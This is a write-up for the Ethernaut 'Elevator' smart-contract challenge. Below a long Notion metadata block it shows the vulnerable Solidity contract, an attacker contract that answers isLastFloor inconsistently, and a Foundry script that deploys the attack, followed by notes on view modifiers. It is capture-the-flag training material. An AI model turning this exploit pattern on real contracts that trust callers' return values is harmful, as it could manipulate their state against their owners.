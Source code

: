 ```yaml
---
title: "Elevator"
date: "2024-02-05"
lastmod: "2024-02-12T17:56:00.000Z"
draft: false
difficulty: "⭐⭐"
prev: "Re-entrancy-6ea65e4888e349dabdc4ca12c8e6d22d"
weight: 11
state: "Terminé"
level-url: "https://ethernaut.openzeppelin.com/level/11"
next: "Privacy-0141c59931824d74a8311099eb338d5d"
type: "docs"
NOTION_METADATA:
  object: "page"
  id: "59c41c69-4afa-45c6-8e60-3000da840a2e"
  created_time: "2024-02-12T13:39:00.000Z"
  last_edited_time: "2024-02-12T17:56:00.000Z"
  created_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  last_edited_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  cover: null
  icon:
    type: "external"
    external:
      url: "https://ethernaut.openzeppelin.com/imgs/BigLevel11.svg"
  parent:
    type: "database_id"
    database_id: "cb6853ff-d731-4d6a-9080-6c8efeec5b1c"
  archived: false
  properties:
    difficulty:
      id: "IAjo"
      type: "select"
      select:
        id: "2fa50c76-9c63-4f19-b03a-b8fb1889da7c"
        name: "⭐⭐"
        color: "blue"
    prev:
      id: "LLP%5C"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "Re-entrancy-6ea65e4888e349dabdc4ca12c8e6d22d"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Re-entrancy-6ea65e4888e349dabdc4ca12c8e6d22d"
          href: null
    date:
      id: "Y%40Gy"
      type: "date"
      date:
        start: "2024-02-05"
        end: null
        time_zone: null
    weight:
      id: "%5Dyda"
      type: "number"
      number: 11
    state:
      id: "f%40ps"
      type: "status"
      status:
        id: "abb7fad3-add1-4b13-946c-06bff36598bf"
        name: "Terminé"
        color: "green"
    level-url:
      id: "juZs"
      type: "url"
      url: "https://ethernaut.openzeppelin.com/level/11"
    next:
      id: "pocA"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "Privacy-0141c59931824d74a8311099eb338d5d"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Privacy-0141c59931824d74a8311099eb338d5d"
          href: null
    type:
      id: "s%7DKc"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "docs"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "docs"
          href: null
    title:
      id: "title"
      type: "title"
      title:
        - type: "text"
          text:
            content: "Elevator"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Elevator"
          href: null
  url: "https://www.notion.so/Elevator-59c41c694afa45c68e603000da840a2e"
  public_url: null
UPDATE_TIME: "2024-02-13T10:43:55.279Z"

---
```

<link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/katex@0.16.2/dist/katex.min.css" integrity="sha384-bYdxxUwYipFNohQlHt0bjN/LCpueqWz13HufFEV1SUatKs1cm4L6fFgCi1jT643X" crossorigin="anonymous">


---


title: Elevator
weight: 4
type: docs
next: re-entrancy
prev: privacy


[Level11](https://ethernaut.openzeppelin.com/level/11) - ⭐⭐


---


This elevator won't let you reach the top of your building. Right?


### Things that might help:

- Sometimes solidity is not good at keeping promises.
- This `Elevator` expects to be used from a `Building`.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```


Solution:


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

interface Elevator {
  function top() external view returns(bool); 
  function floor() external view returns(uint); 
  function goTo(uint _floor) external; 
}

contract Building {
  Elevator public elevator;
  bool lastFloor;

  function installElevator(address _elevator) public {
    elevator = Elevator(_elevator);  
  }

  function isLastFloor(uint) public returns (bool) {
    if (lastFloor == false) {
      lastFloor = true;
      return false;
    }
    return true;
  }

  function attack(uint _floor) public {
    elevator.goTo(_floor); 
  }
}
```


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Script.sol";
import "forge-std/console.sol";

import {Building} from "../src/11.sol";

interface Elevator {
  function top() external view returns(bool); 
  function floor() external view returns(uint); 
  function goTo(uint _floor) external; 
}

contract POC is Script {
    function run() external {
        uint256 deployerPrivateKey = vm.envUint("PRIVATE_KEY");
        address addr = vm.envAddress("INSTANCE_11");

        vm.startBroadcast(deployerPrivateKey);

        console.logUint(address(addr).balance);

        Elevator elevator = Elevator(addr);

        Building building = new Building();
        building.installElevator(addr);

        console.logBool(elevator.top());
        console.logUint(elevator.floor());

        building.attack(0);

        console.logBool(elevator.top());
        console.logUint(elevator.floor());

        vm.stopBroadcast();

    }
}
```


You can use the `view` function modifier on an interface in order to prevent state modifications. The `pure` modifier also prevents functions from modifying the state.
Make sure you read [Solidity's documentation](http://solidity.readthedocs.io/en/develop/contracts.html#view-functions) and learn its caveats.


An alternative way to solve this level is to build a view function 
which returns different results depends on input data but don't modify 
state, e.g. `gasleft()`.

